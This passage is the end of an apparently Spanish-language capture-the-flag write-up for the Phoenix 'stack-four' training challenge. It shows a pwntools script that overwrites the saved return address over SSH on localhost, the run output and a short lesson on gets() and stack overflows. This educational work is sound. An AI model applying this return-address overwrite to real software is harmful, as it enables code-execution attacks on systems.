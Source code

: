 ```c
   7   │ 
   8   │ # Definir el payload
   9   │ payload = b"A" * 88
  10   │ payload += p64(0x40061d) 
  11   │ 
  12   │ # Ejecutar el programa remoto
  13   │ process = ssh_connection.process('/opt/phoenix/amd64/stack-four')
  14   │ 
  15   │ # Enviar el payload
  16   │ process.sendline(payload)
  17   │ 
  18   │ # Esperar un poco para asegurar que todo se haya enviado
  19   │ time.sleep(1)
  20   │ 
  21   │ # captura la respuesta y la envía
  22   │ flag = process.recvall().decode()
  23   │ log.success("Output: " + flag)
  24   │ 
  25   │ # Cerrar el proceso
  26   │ process.close()
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/4_stack-four]
└─# python Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 406
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-four'!
[+] Receiving all data: Done (176B)
[*] Stopped remote process 'stack-four' on localhost (pid 406)
[+] Output: Welcome to phoenix/stack-four, brought to you by https://exploit.education
    and will be returning to 0x40061d
    **Congratulations, you've finished phoenix/stack-four :-) Well done!**
```

**Conclusión**

En este reto vimos cómo sobrescribir la dirección de retorno permite redirigir el flujo de ejecución del programa hacia una función deseada.

Puntos clave:

  - El uso de funciones inseguras como gets() facilita el buffer overflow.

  - El saved return address es un objetivo clásico en explotación de la pila.

  - Controlar el flujo mediante este puntero es una técnica fundamental en explotación binaria.